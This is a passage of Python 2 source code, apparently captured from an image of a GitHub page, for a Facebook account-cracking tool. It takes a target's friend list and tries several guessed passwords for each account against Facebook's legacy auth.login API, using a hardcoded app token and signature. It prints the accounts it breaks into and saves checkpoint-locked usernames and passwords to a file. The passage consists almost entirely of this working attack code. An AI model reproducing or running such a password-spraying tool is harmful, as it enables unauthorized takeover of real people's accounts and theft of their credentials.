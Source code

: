 			raw_input("\n[ Back ]")
			choice_menu()
	elif bch =="0":
		menu()
	else:
		print ("[!] Fill in correctly")
		choice_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (40*"-")
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
		except OSError:
			pass
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			data1 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q1 = json.loads(data1.text)
			if "access_token" in q1:
				print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q1["error_msg"]:
					print "[Checkpoint] " + user + " | " + pass1
					cps = open("checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					data2 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q2 = json.loads(data2.text)
					if "access_token" in q2:
						print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q2["error_msg"]:
							print "[Checkpoint] " + user + " | " + pass2
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							data3 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q3 = json.loads(data3.text)
							if "access_token" in q3: